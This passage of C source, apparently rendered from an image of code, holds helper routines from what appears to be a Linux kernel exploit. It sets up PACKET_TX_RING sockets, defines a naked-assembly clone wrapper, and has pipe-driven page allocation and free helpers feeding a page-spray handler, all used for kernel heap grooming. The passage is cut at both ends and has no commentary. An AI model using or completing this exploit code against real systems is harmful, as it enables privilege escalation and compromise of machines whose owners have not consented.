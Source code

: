 ```c
    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_TX_RING)\n");
        goto err_setsockopt;
    }

    return socket_fd;

err_setsockopt:
    close(socket_fd);
err_out:
    return ret;
}

__attribute__((naked)) long simple_clone(int flags, int (*fn)(void *))
{
    /* for syscall, it's clone(flags, stack, ...) */
    __asm__ volatile (
        " mov r15, rsi; "   /* save the rsi*/
        " xor rsi, rsi; "   /* set esp and useless args to NULL */
        " xor rdx, rdx; "
        " xor r10, r10; "
        " xor r8, r8;   "
        " xor r9, r9;   "
        " mov rax, 56;  "   /* __NR_clone */
        " syscall;      "
        " cmp rax, 0;   "
        " je child_fn;  "
        " ret;          "   /* parent */
        "child_fn:      "
        " jmp r15;      "   /* child */
    );
}

int alloc_page(int idx)
{
    struct page_request req = {
        .idx = idx,
        .cmd = CMD_ALLOC_PAGE,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(struct page_request));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    return ret;
}

int free_page(int idx)
{
    struct page_request req = {
        .idx = idx,
        .cmd = CMD_FREE_PAGE,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(req));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    return ret;
}

void spray_cmd_handler(void)
```